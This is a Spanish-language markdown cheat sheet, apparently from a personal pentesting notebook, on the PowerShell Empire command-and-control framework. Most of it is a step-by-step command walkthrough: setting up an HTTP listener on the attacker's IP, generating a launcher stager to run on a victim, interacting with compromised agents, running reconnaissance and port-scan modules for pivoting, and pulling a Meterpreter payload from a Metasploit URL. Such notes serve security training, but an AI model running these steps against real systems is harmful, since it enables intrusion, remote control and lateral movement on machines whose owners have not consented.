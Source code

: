 ```yaml
---
Herramienta: 🕵️‍♂️ PowerShell Empire
Comando: empire
Categoría: Post-explotación
SO: Windows/Linux
tags:
  - post-explotacion
  - c2
  - powershell
  - herramienta
---
```


## Descripción

**PowerShell Empire** es una plataforma de post-explotación y control de comando (C2) diseñada para facilitar la administración y operación de sistemas comprometidos. Utiliza PowerShell para ofrecer un conjunto completo de funcionalidades, desde ejecución remota de comandos hasta el despliegue de payloads.

Considerar combinarlo con starkiller para tener una interfaz gráfica de los listeners y agents activos.

## Características clave

- **C2 completo**: Proporciona un framework modular para controlar agentes en sistemas comprometidos.
- **Uso de PowerShell**: Funciona sin necesidad de binarios adicionales, aprovechando comandos nativos de PowerShell.
- **Soporte multiplataforma**: Compatible con Windows y Linux.
- **Modularidad**: Incluye módulos para tareas específicas como extracción de credenciales, persistencia y movimientos laterales.

## Ejemplo de uso

### Ejemplo 1

Un framework que funciona bien como cliente para poweshell es PowerShell Empire. Para ver como funciona necesitamos lo siguiente:

```bash

#Necesitamos una conexión con un host con windows, puede ser a través de un revershell o un SMB y desde otra pestaña del shell ejecutamos.
powershell-empire server

#Esto desplega el framework del powershell empire. Y para conectar el powershell con la conexión remota tenemos que habrir otra pestaña (total de 3) y ejecutar.

powershell-empire client
```

Este framework sirve para explotación y post-explotación. Este framework nos puede llegar a ser muy útil para pivoting. Vamos a hacer una prueba con diferentes módulos.

```bash

#Una vez hemos logrado establecer conexión con el cliente de poweshell-empire vamos a usar el módulo "uselistener http".

(Empire) > uselistener http

#Ahora tenemos que setear los parametros, en este caso son la IP de nuestro sistema y el puerto que queremos que escuche

set Host ip
set Port 8888
execute

#Si ejecutamos el comando listeners podemos observar los que tenemos configurados y con el comando Main podemos volver a la página principal del framework.

#con el modulo usestager multi/launcher podemos indicarle un listener y nos indicará el comando a ejecutar en la conexión con la victima para meterla en el framework

(Empire) > usestager multi/lancher
set Listener http
execute
```

Si ejecutamos este comando en la conexión (en este caso un SMB) podemos ver como la sesión se añade el powershell empire y si ejecutamos agents podemos ver las sesiones que tenemos dentro del framework.

Ahora, como podemos volver a entrar a este host? muy sencillo

```bash

#Desde el framework de powershell empire vamos a lanzar la instrucción interact y el name del agents que nos aparezca

interact name

#Con esto estaremos dentro del host pero seguiremos utilzando powershell empire, con lo que tenemos acceso a todos los módulos por ejemplo ->

usemodule powershell/situational_awareness/host/computerdetails
execute


#Y nos dará información detallada del host al que nos hemos conectado. Otro modulo de ejemplo interesante

usemodule powershell/situational_awareness/network/portscan

#Este modulo es esencial para hacer pivoting y lo que podemos hacer es ponerle una ip que nosotros no tengamos acceso pero que esta maquina si que tenga acceso

set Hosts ip2
execute

#Tarda en ejecutarse pero nos dará información de los puertos abiertos y si queremos explotarlos ya entrariamos a usar metasploit.
```

**Después del ejemplo 1 de metasploit**:

Desde aquí nos habrá pasado metasploit un comando a ejecutar en el sistema victima, para ello podemos hacer uso de algún modulo de Powershell Empire

```cmd
usemodule powershell/code_execution/invoke_metasploitpayload
set URL url #la de metasploit

#Con esto podemos conseguir una sesion de meterpreter en el metasploit.
```




